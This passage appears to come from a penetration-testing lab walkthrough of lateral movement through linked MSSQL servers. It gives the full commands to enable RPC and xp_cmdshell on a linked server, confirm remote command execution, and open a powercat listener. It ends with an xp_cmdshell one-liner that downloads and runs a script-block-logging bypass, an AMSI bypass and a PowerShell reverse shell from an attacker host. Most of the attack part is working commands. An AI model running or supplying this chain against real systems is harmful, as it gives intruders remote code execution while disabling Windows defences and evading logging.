By enabling RPC, RPC Out and xp_cmdshell on DB-SQLSrv, we gain the ability to execute remote commands on that server through the linked SQL connection.
Bare in mind that Invoke-SqlCmd is not installed by default on servers running MSSQL. It is part of the SQLServer PowerShell module, which may or may not be present on a target system.
We can senumerate that by running the following command and we can confirm that Invoke-SqlCmd is availble via SQLPS.
Get-Command -Module SQLPS

So we can move on now by running the 4 following command below and exit right after..
Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc', @optvalue='TRUE'"Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc out', @optvalue='TRUE'"Invoke-SqlCmd -Query "EXECUTE ('sp_configure ''show advanced options'',1;reconfigure;') AT ""db-sqlsrv"""Invoke-SqlCmd -Query "EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure') AT ""db-sqlsrv"""

If you get the following error above, it is super normal. just make sure that you are able to execute the for commands stated above.
From our attacking machine, we can can try to execute whoami OS command but this time, we should point it to our target server using -QueryTarget which is DB-SQLSRV, to confirm if we were able to enable RPC and XP_CMDSHELL.
Get-SQLServerLinkCrawl -instance 'US-MSSQL' -Query 'Exec master..xp_cmdshell "whoami"'

As we can see above, our command whoami has been successufully executed on both DB-SQLPROD and DB-SQLSRV server and we can see now db\srvdb DB-SQLSRV.
Now that we were able to configure RPC, RPC OUT, XP_CMDSHELL and we have confirmation that we do have Remote Code Execution on DB-SQLSRV, we can now do the same we did previously on DB-SQLPROD to get Reverse Shell by using the -QueryTarget flag, this way our command is execited on DB-SQLSRV server only.
We can exit from DB-SQLPROD and starting a new listening on port 443 again using powercat.
powercat -l -v -p 443 -t 1000

With the new listener we can now execute the command to get our reverse shell again. Remember to hit ENTER twice on our powercat listener.
Get-SQLServerLinkCrawl -instance 'US-MSSQL' -Query 'Exec master..xp_cmdshell ''Powershell -c "IEX(IWR http://192.168.100.163/sbloggingbypass.txt -UseBasicParsing); IEX(IWR http://192.168.100.163/amsibypass.txt -UseBasicParsing); IEX(IWR http://192.168.100.163/Invoke-PowerShellTcpEx.ps1 -UseBasicParsing)"''' -QueryTarget 'DB-SQLSRV'


- This is the actual reverse shell payload, which will be executed after the security mechanisms are disabled.
- Since sblogging and AMSI have already been bypassed, it runs without being blocked or logged.